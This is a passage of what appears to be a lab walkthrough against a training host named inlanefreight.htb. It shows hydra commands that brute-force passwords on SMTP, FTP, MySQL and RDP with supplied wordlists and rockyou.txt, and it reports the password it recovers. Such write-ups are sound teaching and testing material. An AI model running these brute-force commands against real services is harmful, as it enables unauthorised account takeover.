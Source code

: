     mysql -u admin -h 10.129.203.7 -p
    # other common usernames also do not work
    ```
  
  * Bruteforcing services:

    ```sh
    # using the given wordlists in resources

    # bruteforce SMTP first as it is a mail server
    hydra -l fiona@inlanefreight.htb -P pws.list smtp://10.129.203.7
    # we can use multiple threads but this target did not respond well to it

    # bruteforce FTP
    hydra -l fiona@inlanefreight.htb -P pws.list ftp://10.129.203.7 -t 36

    # we can check with other wordlists like rockyou.txt
    # but we will check with the given small wordlist first

    # bruteforce mysql
    hydra -l fiona@inlanefreight.htb -P pws.list mysql 10.129.203.7 -t 36
    # we get blocked midway due to many connection errors

    # bruteforce RDP
    hydra -l fiona@inlanefreight.htb -P pws.list rdp 10.129.203.7

    # bruteforce SMTP with rockyou.txt
    hydra -l fiona@inlanefreight.htb -P /usr/share/wordlists/rockyou.txt smtp://10.129.203.7
    # this gives us the password '987654321'
    ```
  
  * We can log into SMTP now:

    ```sh
    telnet 10.129.203.7 25
